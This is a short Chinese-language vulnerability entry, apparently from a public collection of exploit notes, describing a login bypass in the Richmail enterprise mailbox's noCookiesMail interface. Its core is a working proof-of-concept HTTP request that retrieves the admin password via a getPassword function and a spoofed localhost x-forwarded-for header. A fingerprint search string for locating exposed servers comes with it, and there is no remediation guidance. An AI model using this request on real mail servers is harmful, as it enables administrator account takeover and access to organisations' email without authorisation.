

# Richmail 企业邮箱 noCookiesMail 登陆绕过漏洞

## 漏洞描述

Richmail 企业邮箱 noCookiesMail 接口存在登陆绕过漏洞，攻击者通过漏洞可以获取管理员账号密码登录后台

## 漏洞影响

Richmail 企业邮箱

## 网络测绘

```
"Richmail 企业邮箱"
```

## 漏洞复现

登陆页面


poc

```
GET /RmWeb/noCookiesMail?func=user:getPassword&userMailName=admin HTTP/1.1 
Host:
Cache-Control: max-age=0 
Content-Type: Application/X-www-Form
x-forwarded-for: 127.0.0.1
```



替换请求中的password字段即可登陆。